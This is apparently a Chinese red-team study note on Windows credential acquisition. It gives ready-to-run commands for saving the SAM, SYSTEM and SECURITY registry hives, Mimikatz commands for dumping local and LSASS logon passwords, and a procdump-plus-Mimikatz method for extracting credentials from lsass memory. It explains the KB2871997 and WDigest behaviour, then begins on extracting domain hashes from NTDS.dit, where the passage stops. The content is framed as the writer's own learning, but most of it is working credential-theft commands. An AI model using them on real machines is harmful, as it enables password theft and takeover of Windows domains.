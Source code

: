 ## 0x05 密码获取

> 这里腾讯蓝军的文章占用了很大的篇幅，因为包含了许多基础知识（如lmhash，ntlmhash生成等等），因为在之前整理过的入门篇章已经有了，所以会有一些不一样。还是记录自己不会的，边看边学

### 本地凭据获取

> 这里其实已经在之前的整理过了，重新整理(搬运)一下，看过或者熟悉的可以直接跳过了，这里纯搬指令
>
> 20200714：今天看到了Ateam的文章...没想到和卡巴对抗的情况呀...不过目前太菜还看不懂，先mark一下[文章](https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#44-%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E7%9A%84%E5%AF%B9%E6%8A%97)

#### reg转储

```shell
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

#### Mimikatz

```shell
privilege::debug
token::elevate
lsadump::sam

从lsass.exe进程获取

privilege::debug
sekurlsa::logonpasswords
```

#### Procdump + Mimikatz

```shell
procdump64.exe  -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe  "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords  full" exit
```

没有明文的原因还是 kb2871997（**之前我还以为这个只和PTH有关，学到啦**）。kb2871997补丁会删除除了wdigest ssp以外其他ssp的明文凭据，但对于wdigest ssp只能选择禁用。用户可以选择将`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential`更改为0来禁用。
[\*] 注意：这一段直接粘贴复制的 ~~偶尔搬运一下，方便理解~~

### 域Hash

> 这部分没有手动实现过，所以这里慢慢看，复现一下。导出的方法也很多，这里先上Wing仔的[文章](https://xz.aliyun.com/t/2527)，我就不一一复现了...用两个好用的！

在拿到域控权限后，有时候需要导出域内所有主机的Hash，对应的文件为 `C:\Windows\NTDS\NTDS.dit` 导出所有用户的hash，但是这个是一直被占用的，如果直接去复制会抛出如下错误：